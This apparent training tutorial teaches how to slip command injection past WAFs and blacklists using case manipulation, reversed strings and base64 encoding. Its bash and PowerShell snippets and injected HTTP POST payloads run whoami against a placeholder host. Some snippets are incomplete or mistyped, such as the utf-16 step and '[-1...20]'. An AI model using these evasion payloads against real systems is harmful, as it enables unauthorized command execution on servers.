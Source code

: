 In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.
## Case Manipulation
One command obfuscation technique we can use is case manipulation, in which the character cases of a command is inverted (e.g `WHOAMI`) or alternated (e.g `WhOaMi`). This usually works because command blacklist functions may not check for different case variations of a single word, this is because Linux-based systems are case sensitive. So this technique will work for Windows' Powershell and CMD as they are case-insensitive.

Not all is lost for Linux-based systems and bash shell, we just have to be creative:
```nix
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
The command above will convert the command into an all-lowercase word and execute it.

Additionally, for bash shell, the following technique will work as well:
```nix
$(a="WhOaMi";printf %s "${a,,}")
```
## Reversed Commands
Another technique is reversing commands, and having a command template that switches them back and executes the command. For example, instead of executing `whoami`, we will instead use `imaohw` to avoid triggering the blacklisted command.

But first, we have to get the reversed string of our command in our terminal:
```nix
echo 'whoami' | rev
```
Then we can execute the original command by reversing it back in a sub-shell:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0a$(rev<<<'imaohw')
```

The same can also be applied to Windows. First we reverse the string:
```powershell
"whoami"[-1...20] -join ''
```
Then we execute a reverse string using Powershell sub-shell (`iex "$()"`):
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0aiex "$('imaohw'[-1..-20] -join '')"
```
> Note: We removed the encoding on the command so that we can read it properly. But during engagements, make sure to encode the necessary characters to bypass other filters.
## Encoded Commands
Another technique is encoding commands, this may be helpful for commands containing filtered characters or characters that may be URL-decoded by the server. However, this may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute (avoid this by not using encoded characters).

In this case, we can utilize various tools such as `base64` for base64 encoding and `xxd` for hex encoding. For example:
```nix
echo "whoami" | base64
```
Which will return `d2hvYW1pCg==`. We can now create a command to decode the encoded string in a sub-shell and then pass it to bash to be executed:
```nix
bash<<<$(base64 -d<<<d2hvYW1pCg==)
```
Which we can then use as a payload:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0abash<<<$(base64%09-d<<<d2hvYW1pCg==)
```
>   Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character. 

Additionally, we can first convert the string from `utf-8` to `utf-16` before it is encoded into base64. Command is as follows:
```nix
echo -n whoami 
```

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```







> Tip: Try to create your own unique obfuscation techniques by getting creative with Bash or Powershell. This way, it is much less likely to be denied by a filter or a WAF.